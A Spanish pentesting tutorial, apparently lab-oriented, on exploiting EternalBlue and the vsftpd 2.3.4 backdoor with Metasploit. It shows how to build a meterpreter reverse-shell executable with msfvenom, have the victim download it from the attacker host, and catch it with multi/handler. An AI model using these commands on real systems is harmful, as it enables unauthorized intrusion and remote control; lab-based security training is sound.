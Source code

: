 ```yaml
---
icon: '3'
---
```


# Explotación de Vulnerabilidades y Ataques de Fuerza Bruta

## Enlace Alternativo de Descarga de los Laboratorios

{% embed url="https://drive.google.com/drive/folders/1EOkfWHycCEsO2QU6DHhloN7pnDAu6-vg" %}

## Uso Básico de Metasploit – Explotación EternalBlue en Windows

**EternalBlue** es una vulnerabilidad en SMBv1 de Windows (CVE-2017-0143), aprovechada por malware como WannaCry. A continuación, te muestro cómo explotar esta vulnerabilidad usando Metasploit:

```bash
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit EternalBlue (CVE-2017-0143)
search eternalblue/CVE-2017-0143

# 3. Seleccionar el exploit encontrado
use 0

# 4. Mostrar las opciones disponibles del módulo
show options

# 5. Configurar la dirección IP de la máquina víctima
set RHOSTS <IP de la máquina víctima>

# 6. Ejecutar el exploit
run
```

Este exploit aprovecha una vulnerabilidad crítica en SMBv1, permitiendo ejecución remota de código en sistemas no parcheados.

## Uso Básico de Metasploit – Explotación vsftpd en Linux

#### Reconocimiento

```bash
arp-scan -I eth0 --localnet
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn <IP máquina atacante> -oN escaneo
nmap --script "vuln" -p21 <IP máquina víctima> 
```

#### Explotación

```bash
search vsFTPd 2.3.4
use 0
show options
set RHOSTS <IP máquina víctima> 
run
```

## Msfvenom – Generar Nuestros Propios Payloads

En este ejemplo, creamos un payload malicioso con `msfvenom`, lo servimos con un servidor HTTP simple, y luego utilizamos el módulo **Multihandler** en Metasploit para manejar la conexión reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP máquina atacante> LPORT=443 -f exe -o pwned.exe
```

* `-p windows/x64/meterpreter/reverse_tcp`: Especifica el payload `meterpreter/reverse_tcp` para Windows de 64 bits.
* `LHOST=<IP máquina atacante>`: La dirección IP de la máquina atacante (donde recibiremos la conexión).
* `LPORT=443`: El puerto donde la víctima se conectará.
* `-f exe`: Formato de salida `.exe`.
* `-o pwned.exe`: El nombre del archivo generado.

Para hacer que la víctima descargue el payload, utilizamos un servidor HTTP en la máquina atacante.

```bash
python3 -m http.server 80
```

* Este comando inicia un servidor HTTP en el puerto 80.

En la máquina víctima, abrimos un navegador o usamos una utilidad como `wget` o `curl` para descargar el archivo ejecutable servido en la máquina atacante:

```bash
# Descargar desde la máquina víctima 
wget http://<IP máquina atacante>/pwned.exe
```

Ahora, configuramos Metasploit para manejar la conexión del payload.

```bash
# Iniciar msfconsole
msfconsole

# 1. Usar el módulo Multihandler
use exploit/multi/handler

# 2. Mostrar opciones
show options

# 3. Configurar el payload utilizado por el Multihandler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 4. Configurar el puerto LPORT (debe coincidir con el que usamos en msfvenom, 443 en este caso)
set LPORT 443

# 5. Configurar la dirección IP de la máquina atacante
set LHOST <IP máquina atacante>

# 6. Ejecutar el handler
run
```

Este proceso nos permite obtener una sesión `meterpreter` una vez que el archivo malicioso es ejecutado en la máquina de la víctima.

## Uso de Hydra – Ataques de Fuerza Bruta a Contraseñas (SSH y FTP)

